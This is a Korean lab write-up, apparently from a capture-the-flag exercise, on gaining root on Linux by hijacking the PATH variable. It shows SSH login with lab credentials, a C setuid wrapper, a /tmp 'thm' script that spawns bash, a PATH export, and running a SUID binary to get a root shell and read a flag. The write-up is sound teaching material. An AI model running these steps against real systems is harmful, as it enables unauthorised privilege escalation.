

# Linux Privilege Escalation: PATH

> 환경 변수 PATH를 악용하여 실행 파일 대체 공격을 수행하고 루트 권한을 획득한 과정을 정리하였습니다.

---

## 1. 실습 개요
- **타겟 머신 IP**: 10.10.92.239
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **권한 상승 방법**: `PATH` 환경 변수 조작을 통한 바이너리 하이재킹
- **실습 일자**: 2025-04-19

---

## 2. 실습 과정

### 2.1 SSH 접속
```bash
ssh karen@10.10.92.239
```
- karen 계정으로 타겟 머신에 SSH 접속하였다.


---

### 2.2 취약 실행 파일 확인 및 준비
- `/home/murdoch` 디렉토리로 이동하니 `test` 실행 파일과 `thm.py` 파일이 존재하였다.


- `thm.py`는 Python으로 작성된 프로그램으로, 내부에서 `os.system("thm")`을 호출하고 있었다. 이 부분을 악용하기 위해 `thm.py`의 내용을 모두 제거하고 C로 작성한 setuid 프로그램 코드로 교체하였다.

```c
#include<unistd.h>
void main() {
  setuid(0);
  setgid(0);
  system("thm");
}
```
- 이후 파일명을 `thm.c`로 저장하였다.


---

### 2.3 리버스 쉘용 바이너리 작성
- `/tmp` 디렉토리로 이동하여 `thm`이라는 이름으로 셸 스크립트를 작성하였다.
```bash
echo "/bin/bash" > thm
chmod +x thm
```


---

### 2.4 PATH 환경변수에 /tmp 추가
- `PATH` 환경 변수에 `/tmp`를 최우선으로 설정하였다.
```bash
export PATH=/tmp:$PATH
```


---

### 2.5 SUID 파일 실행 및 루트 쉘 획득
- `/home/murdoch`로 돌아와 `test` 실행 파일을 실행하였다. 이 파일은 SUID 권한을 가지고 있었으며 내부적으로 `system("thm")`을 실행하므로 `/tmp/thm`이 실행되어 루트 쉘을 획득할 수 있었다.

```bash
./test
```


---

### 2.6 루트 쉘 검증 및 플래그 파일 획득
```bash
find / -name flag6.txt
cat /home/matt/flag6.txt
```
- 루트 권한을 가진 상태에서 시스템을 탐색하여 플래그를 획득하였다.



> PATH 환경 변수의 우선순위 특성을 악용하여 setuid 바이너리를 통해 루트 쉘을 획득하였다.

---

## 느낀 점
> 실습을 통해 **PATH 환경 변수의 관리 부주의가 어떻게 치명적인 보안 취약점으로 이어질 수 있는지 체감**할 수 있었다. 시스템 관리자가 경로 지정 없이 명령어를 호출하는 경우, 공격자가 원하는 실행 파일로 하이재킹이 가능하며, 특히 **SUID 바이너리와 조합될 경우 권한 상승으로 직결될 수 있는 매우 위험한 구조**임을 확인하였다.